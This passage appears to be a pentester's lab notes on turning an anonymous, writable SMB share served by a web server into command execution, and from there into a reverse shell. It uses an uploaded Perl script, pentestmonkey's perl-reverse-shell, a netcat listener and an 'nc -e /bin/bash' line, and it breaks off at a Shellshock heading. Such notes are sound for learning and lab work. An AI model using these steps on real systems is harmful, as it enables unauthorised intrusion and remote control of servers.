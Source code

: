 //it will execute the id Linux system command and will display your current UID and GID information when accessed with your browser.

```
	smbclient \\\\<target ip>\\www -N
	put test.pl
```

- lets browser to our test.pl file

in browser:
```
<target ip>/test.pl
```

> this will confirm For us that we can upload our own Perl scripts to the server and can execute remote operating system commands through our test script.

### reverse shell - Perl
- Now we can use perl-reverse-shell.pl from pentestmonkey
- in kali: /usr/share/webshells/perl directory
// just change the ip of the source code
// and note the port number

- Upload the script to the share

```
smbclient > put 
```

- open a netcat listener

```
nc -lvnp 1234
// -n = no dns
// -l = listen
// -v = verbose
// -p = port we want to listen on
```

- now we can open the file through the browser
in browser:

```
<target ip>/<perl-reverse-shell.pl>
```
// we have a shell

- alternatively,
we could have modified the test.pl that we upload before.
add in the code:

```
system("nc <target ip> 1234 -e /bin/bash");
```




## Exploiting Shellshock
	aka Bashdoor
